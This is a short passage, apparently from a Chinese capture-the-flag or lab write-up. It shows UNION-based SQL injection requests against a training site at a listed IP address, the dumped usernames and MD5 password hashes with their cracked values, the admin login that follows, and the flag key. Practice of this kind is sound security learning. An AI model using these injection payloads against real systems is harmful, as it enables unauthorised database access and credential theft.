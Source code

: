 ```
通过上述操作得到了表名“StormGroup_member”和表名“notice”下的列名信息，接下来进一步查询指定数据信息：
http://124.70.22.208:46802/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member
账号为：mozhe
密码为：356f589a7df439f6f744ff19bb8092c0
密码解密为：dsan13

经过测试，发现此账号密码并不正确，因此修改网址后再次查询：
http://124.70.22.208:46802/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1
账号为：mozhe
密码为：476aa2c1edd71f479d4c428e2ad9e785
密码解密为：664531
```

```
最终发现第二次查询到的账号密码正确，进入登录页面输入后点击“登录”便进入了此网站的管理后台。
在后台页面得到KEY：mozhe757d004432915faafed80fcbf3b
将KEY提交后便成功完成了本此漏洞利用。
```
